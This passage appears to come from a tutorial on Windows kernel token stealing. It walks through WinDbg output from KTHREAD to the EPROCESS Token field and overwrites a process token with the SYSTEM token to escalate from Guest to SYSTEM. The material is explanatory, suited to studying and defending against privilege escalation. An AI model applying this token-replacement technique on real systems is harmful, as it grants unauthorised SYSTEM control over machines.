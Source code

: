     kd> dt nt!_KTHREAD 0x83dcd020
       +0x000 Header           : _DISPATCHER_HEADER
        . . . 
       +0x03c SystemThread     : 0y1
       +0x03c Reserved         : 0y000000000000000000 (0)
       +0x03c MiscFlags        : 0n8193
       +0x040 ApcState         : _KAPC_STATE
       +0x040 ApcStateFill     : [23]  "`???"
       +0x057 Priority         : 12 ''
        . . .
view rawtoken_stealing_7.raw hosted with ❤ by GitHub
Get address of Process member (KPROCESS). It contains the Token value and is at an offset +0x40 from the KTHREAD base address.
    kd> dt nt!_KAPC_STATE 0x83dcd020+0x40
       +0x000 ApcListHead      : [2] _LIST_ENTRY [ 0x83dcd060 - 0x83dcd060 ]
       +0x010 Process          : 0x8570b5e8 _KPROCESS
       +0x014 KernelApcInProgress : 0 ''
       +0x015 KernelApcPending : 0 ''
       +0x016 UserApcPending   : 0 ''
view rawtoken_stealing_8.raw hosted with ❤ by GitHub
Figure 23: KAPC List Entry
Figure 23: KAPC List Entry
Get Token member offset from EPROCESS structure. KPROCESS is the first structure of EPROCESS
    kd> dt nt!_EPROCESS 0x8570b5e8
       +0x000 Pcb              : _KPROCESS
       +0x098 ProcessLock      : _EX_PUSH_LOCK
       . . .
       +0x0f4 ObjectTable      : 0x953b8570 _HANDLE_TABLE
       +0x0f8 Token            : _EX_FAST_REF
       +0x0fc WorkingSetPage   : 0xb2b3
       +0x100 AddressCreationLock : _EX_PUSH_LOCK
    . . .
view rawtoken_stealing_9.raw hosted with ❤ by GitHub
Get Token value
kd> dt nt!_EX_FAST_REF 0x8570b5e8+f8
   +0x000 Object           : 0x953b6037 Void
   +0x000 RefCnt           : 0y111
   +0x000 Value            : 0x953b6037
view rawtoken_stealing_10.raw hosted with ❤ by GitHub
Actual Token value by ANDing last 3 bits to 0 = 0x953b6037 >> 0x953b6030
Now replace the current process token with SYSTEM token.

kd>  ed 0x8570b5e8+f8 878013e0
view rawtoken_stealing_11.raw hosted with ❤ by GitHub
TS_Tokenreplaced
Figure 24: Token value replaced
Soon as we replace the token we are assigned the SYSTEM token and the privileges that come with it. The same was verified as below in the victim machine:

Figure 25: Escalating from Guest to System privilege using Token Stealing
Figure 25: Escalating from Guest to System privilege using Token Stealing
Figure 26: An example: Local privilege escalation using token stealing from Administrator 
Figure 26: An example: Local privilege escalation using token stealing from Guest